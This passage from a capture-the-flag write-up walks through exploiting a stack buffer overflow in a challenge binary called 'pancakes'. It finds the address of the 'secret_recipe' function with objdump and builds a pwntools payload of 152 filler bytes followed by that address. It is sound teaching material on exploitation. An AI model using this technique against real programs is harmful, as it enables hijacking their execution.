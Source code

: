 Dump the symbol table of `pancakes` and filter it against `secret_recipe`:
```bash
root@sandstorm:/project# objdump ./pancakes -t | grep secret
000000000040098b g     F .text	0000000000000071              secret_recipe

```
The first column of the output is the address, `0x000000000040098b`.


# 5: Putting together the pieces.
To recap, from the previous steps it was determined that:
- A buffer overflow vulnerability exists on the STDIN.
- The minimum number of bytes (`offset`) to successfully exploit this vulnerability is `152`.
- Forcing `pancakes` to call the function `secret_recipe` will divulge the flag.
- The address of `secret_recipe` is `0x000000000040098b`.

Putting all this together, its time to craft the payload.

The following code snippets are Python code written against `pwntools`, see [Tools](#the-tools-used-for-this-writeup).

```python
import pwn  # Pwntools library

# obtained from GDB hackery
OFFSET = 152

# obtained from reverse-engineering / inspecting binary's symbol table
SECRET_RECIPE_ADDR = 0x0040098b

```
When building buffer overflow payloads, its common to use the letter `A` as a filler byte, though any byte will do.

```python
# fill STDIN with a standard byte until we reach desired overflow, thus overwriting the right register...
payload = b"A"*OFFSET
# Emit base address of secret_recipe such that the process will return into it.
payload += pwn.p64(SECRET_RECIPE_ADDR)


```
The payload is now built, using `A` to fill in `offset` bytes, then writing the 64 bit pointer of `secret_recipe` to the end of the payload.

This will cause the pointer to overwrite the correct CPU register and redirect program flow.

All thats left here to the reader is to emit `payload` to the process, which `pwntools` [has a method for.](https://docs.pwntools.com/en/latest/tubes.html#pwnlib.tubes.tube.tube.sendline)

# Proof of work